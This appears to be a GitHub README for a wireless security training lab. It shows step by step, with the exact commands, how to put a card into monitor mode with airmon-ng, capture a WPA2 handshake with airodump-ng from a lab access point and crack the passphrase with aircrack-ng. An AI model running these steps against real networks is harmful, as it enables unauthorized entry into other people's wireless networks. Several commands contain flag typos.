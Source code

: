 # RSSC2018-Wireless-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started:
1. An access point broadcasting an SSID with a WPA2 password.
2. Kali Linux installed to attack the target host from.
3. A wireless card compatiable with Kali Linux to scan/monitor wireless networks in your vicinity. 

## Air Monitor
Here you will walk through the process of monitoring wireless networks and capturing a WPA2 handshake.

1. The iwconfig command will show any wireless cards in the computer. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You will need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, you need to change the wireless card to monitoring mode. You do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```
More information on the commands used, or other information about airmon-ng can be found by running `man airmon-ng`.  

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
We can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. You will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. 
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –-write <filename>
``` 
Note: Replace the <mac-address> and <channel> with what you found in step 3 and <filename> with a filename. MAC address will need to use numbers, colons, and all caps. See below for correct command:
```bash
airodump-ng wlan0mon -bssid 00:30:44:27:E3:38 --channel 1 --write break
```
airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + C’. An 'ls' after you break out should display 'break-*.cap' file that we will use in the next step.
  
More information on the commands used, or other information about airodump-ng can be found by running `man airodump-ng`. 

## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng break-01.cap -a 2 -w dictionary.txt
```
* -a forces the attack mode. The '2' following -a is for WPA-PSK. A '1' is used for WEP.
* -w is the dictionary file used for WPA cracking. In this case, 'dictionary.txt' is sitting in our home directory.

After a few seconds, it should find the password needed to get onto the 'RSSC' network. It is 'Drowssap2'.

More information on the commands used, or other information about aircrack-ng can be found by running `man aircrack-ng`. 

9. Back on the Kali Linux desktop, select the icon at the bottom of the sidebar titled 'Show Applications'. Use the 'Type to search' box to search 'Settings' and open it. Select Wi-Fi and find 'RSSC' under 'Visible Networks'. Select it and type in the password to connect to the network.

10. Back in terminal, type:
```bash
ping 192.168.0.1
```
This IP address is the AP/Router that is broadcasting this SSID. If you are able to ping it successfully, you have gotten onto the network.
